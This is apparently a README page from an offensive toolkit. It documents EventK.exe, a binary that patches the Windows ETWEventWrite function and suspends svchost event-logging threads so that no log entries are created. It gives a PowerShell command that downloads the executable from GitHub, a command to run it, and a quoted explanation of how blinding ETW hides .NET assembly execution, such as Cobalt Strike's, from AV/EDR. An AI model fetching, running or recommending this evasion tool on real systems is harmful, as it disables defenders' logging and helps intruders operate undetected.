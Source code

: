 ## EventK.exe

|Binary Name|Description|Privileges|Notes|
|---|---|---|---|
|EventK|Patch the ETWEventWrite function to<br />prevent the creation of logfiles|Administrator|Suspend thread in svchost.exe related<br />to event logging (@SolomonSklash)<br />[Screenshot](https://naoexiste)|

<br />

**Download cmdlet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/ETWpatch/EventK.exe" -OutFile "EventK.exe"
```

<br />

**Execute:**
```powershell
.\EventK.exe
```

<br />

**Final Notes:**
```powershell
[ETW Bypass]
Next up is coverage of Event Tracing for Windows (ETW), how it can rat you out to AV/EDR,
and how to blind it in your local process. ETW is especially relevant when executing .NET
assemblies, such as in Cobalt Strike’s execute-assembly, as it can inform defenders of the
exact assembly name and methods executed. The solution in this case is simple: Patch the
ETWEventWrite function to return early with 0 in the RAX register. Anytime an ETW event
is sent by the process, it will always succeed, without actually sending the message.
```

Article: https://www.solomonsklash.io/windows-evasion-course-review.html
